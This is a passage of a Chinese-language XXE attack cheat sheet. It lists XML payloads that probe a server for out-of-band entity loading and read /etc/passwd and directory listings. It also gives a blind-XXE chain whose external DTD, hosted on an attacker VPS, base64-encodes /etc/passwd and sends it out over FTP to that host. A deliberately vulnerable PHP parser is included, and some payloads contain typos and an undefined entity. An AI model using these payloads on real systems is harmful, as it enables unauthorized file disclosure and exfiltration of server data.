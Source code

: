 **3.检测服务器是否支持外部实体**

先看是否能带外，vps或者dnslog能接到数据 

pyload

```xml-dtd
<?xml version='1.0'?>
<!DOCTYPE ANY[
<!ENTITY % f SYSTEM "http://dnslog或者vps">%f;
]>
```

**4.如果有回显尝试**

system "file://ect/passwd" 

**5.无回显 第一部尝试**

 dtd文件 部署在vps上

```xml-dtd
<!ENTITY % ccc SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % rrr "<!ENTITY &#37; s SYSTEM 'ftp://fakeuse:%ccc;@vps:端口/b'>">
```

请求包了修改的xml数据

```xml-dtd
<?xml version='1.0' encoding="utf-8"?>
<!DOCTYPE ANY [<!ENTITY % aaa SYSTEM "http://vps:端口/dtd文件">%aaa;%rrr;%sss;]>
```



#### **pyload解析**

有回显

xml.php 内容

```php
<?php
# xml参数未进行过滤直接进行xml解析   
$xml=simplexml_load_string($_POST['xml']);
#输出解析的结果
print_r($xml);
?>
```

pyload

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root <!-- 声明根元素root-->
[  <!ENTITY file SYSTEM "file:///etc/passwd"> ] > <!--实体file 接收外部实体 "file:///etc/passwd" 结果-->
<root>&file;</root>  <!--实体引用 -->
```

访问 xml.php 可以读取 /etc/passwd 的内容。 XXE 也可以读取目录：

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ENTITY file SYSTEM "file:///">]> <root>&file;</root>
```
